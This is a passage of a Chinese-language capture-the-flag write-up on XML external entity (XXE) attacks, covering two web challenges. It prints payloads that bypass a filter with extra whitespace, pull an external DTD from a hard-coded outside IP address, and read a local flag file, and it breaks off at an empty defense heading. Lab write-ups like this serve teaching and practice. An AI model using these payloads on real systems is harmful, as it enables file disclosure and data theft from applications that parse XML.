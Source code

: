 ## web375

发现了过滤，用空格绕过一下就可以了，步骤和上题一样
Payload:

```
<?xml   version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://118.31.165.63:8080/test.dtd">%xxe;]>
```

## web378

题目

<img src="图片\Snipaste_2023-02-05_21-10-20.png" alt="Snipaste_2023-02-05_21-10-20" style="zoom:80%;" />

payload

```
<!DOCTYPE test [<!ENTITY xxe SYSTEM "file:///flag">]>
<user><username>&xxe;</username><password>a</password></user>
```

# 防御

XXE修复防御方案：
